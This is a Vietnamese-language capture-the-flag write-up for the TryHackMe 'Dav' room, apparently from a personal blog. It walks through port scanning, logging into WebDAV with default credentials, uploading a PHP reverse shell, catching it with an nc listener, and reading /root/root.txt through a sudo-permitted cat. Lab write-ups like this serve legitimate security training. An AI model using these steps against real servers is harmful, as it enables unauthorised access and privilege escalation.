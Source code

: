 ```yaml
---
layout: post
author: "Neo"
title: "Tryhackme - Dav"
date: "2022-03-16"
tags: [
    "tryhackme",
    "web",
    "linux",
    "webdav",
    "ssh",
]
categories: ctf
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}

![intro](/assets/img/2022-03-16-THM-Dav/1.png)

Xin chào, lại là tôi đây. Hôm nay tôi sẽ giải CTF [TryHackMe | Dav](https://tryhackme.com/room/bsidesgtdav)
## Reconnaissance

Vẫn như thông thường, việc đầu tiên cần làm quét các cổng đang mở trên máy chủ mục tiêu

```python
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

Web này chỉ là trang mặc định, phần source cũng không có gì đặc biệt. Tôi sẽ dùng *dirsearch* để tìm path

```python
[05:39:10] 401 -  459B  - /webdav/index.html                                
[05:39:10] 401 -  459B  - /webdav/                                          
[05:39:10] 401 -  459B  - /webdav/servlet/webdav/      
```

Khi truy cập vào path này, tôi cần phải có user và pass. Sau 1 lúc tìm hiểu về webdav thì tôi tìm được cách kiểm tra và truy cập webdav với user và pass mặc định. Nó ở [đây](https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html). 

Thử login webdav với *cadaver* - tool có sẵn trên kali

```python
┌──(neo㉿kali)-[~]
└─$ cadaver http://10.10.115.69/webdav
Authentication required for webdav on server `10.10.115.69':
Username: wampp
Password: 
dav:/webdav/> ?
Available commands: 
 ls         cd         pwd        put        get        mget       mput       
 edit       less       mkcol      cat        delete     rmcol      copy       
 move       lock       unlock     discover   steal      showlocks  version    
 checkin    checkout   uncheckout history    label      propnames  chexec     
 propget    propdel    propset    search     set        open       close      
 echo       quit       unset      lcd        lls        lpwd       logout     
 help       describe   about      
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye
dav:/webdav/>
```

Tôi sẽ thử tạo 1 file txt và upload nó lên webdav, để kiểm tra xem nó có chạy không.

```python
┌──(neo㉿kali)-[~]
└─$ echo "TESTING" > test.txt
```

```python
dav:/webdav/> put test.txt
Uploading test.txt to `/webdav/test.txt':
Progress: [=============================>] 100.0% of 8 bytes succeeded.
dav:/webdav/> 
```

Truy cập trên web 

![testing](/assets/img/2022-03-16-THM-Dav/2.png)

Thành công. Tôi sẽ thử đẩy reverse shell lên đây

```python
dav:/webdav/> put reshell.php 
Uploading reshell.php to `/webdav/reshell.php':
Progress: [=============================>] 100.0% of 2586 bytes succeeded.
dav:/webdav/> 
```

Tạo listener với port 2402 - port đã cấu hình bên trong file shell.

`nc -nlvp 2402`

Bây giờ thì thử truy cập shell vừa tạo 

```python
┌──(neo㉿kali)-[~]
└─$ nc -lnvp 2402            
listening on [any] 2402 ...
connect to [10.6.0.191] from (UNKNOWN) [10.10.115.69] 50358
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 03:17:08 up  1:06,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (690): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/$ 
```

Tôi tìm được *user flag* trong thư mục user *merlin*

```python
www-data@ubuntu:/$ ls -la /home
ls -la /home
total 16
drwxr-xr-x  4 root   root   4096 Aug 25  2019 .
drwxr-xr-x 22 root   root   4096 Aug 25  2019 ..
drwxr-xr-x  4 merlin merlin 4096 Aug 25  2019 merlin
drwxr-xr-x  2 wampp  wampp  4096 Aug 25  2019 wampp
www-data@ubuntu:/$ cd /home/merlin
cd /home/merlin
www-data@ubuntu:/home/merlin$ ls
ls
user.txt
www-data@ubuntu:/home/merlin$
```

## Privilege escalation

`sudo -l`

```python
www-data@ubuntu:/home/merlin$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
www-data@ubuntu:/home/merlin$
```

[cat | GTFOBins](https://gtfobins.github.io/gtfobins/cat/):

```python
www-data@ubuntu:/home/merlin$ LFILE=/root/root.txt
LFILE=/root/root.txt
www-data@ubuntu:/home/merlin$ sudo cat "$LFILE"
sudo cat "$LFILE"
1011***********************7afa5
www-data@ubuntu:/home/merlin$ 
```

